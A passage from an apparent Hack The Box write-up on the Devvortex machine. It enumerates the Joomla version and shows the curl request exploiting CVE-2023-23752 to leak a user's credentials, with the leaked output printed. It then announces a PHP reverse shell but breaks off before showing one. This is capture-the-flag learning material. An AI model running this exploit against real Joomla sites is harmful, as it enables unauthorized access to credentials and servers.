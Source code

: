 ```shell
http://dev.devvortex.htb/administrator
```

Searching online, I found a way to enumerate the Joomla version visiting the following URL:

```shell
http://dev.devvortex.htb/administrator/manifests/files/joomla.xml
```

Inside the joomla.xml we found the Joomla version 4.2.6.

We can now try to find an exploit for this version.

# Foothold
### CVE-2023-23752 Unauthenticated Information Disclosure
Searching online, I found the CVE-2023-23752, which the Joomla 4.2.6 version is vulnerable to.

We can use the curl command as follow to get some information:

```shell
curl http://dev.devvortex.htb/api/index.php/v1/config/application?public=true | jq
```

Here we found what it seems to be the credentials of the user lweis:

```shell
 {
      "type": "application",
      "id": "224",
      "attributes": {
        "user": "lewis",
        "id": 224
      }
    },
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "password": "P4ntherg0t1n5r3c0n##",
        "id": 224
      }
```

```shell
lewis:P4ntherg0t1n5r3c0n##
```

### Using lewis credentials to log into Joomla and use a PHP reverse shell to get access

Now we can use the credentials of lewis to get access:

```shell
http://dev.devvortex.htb/administrator
```

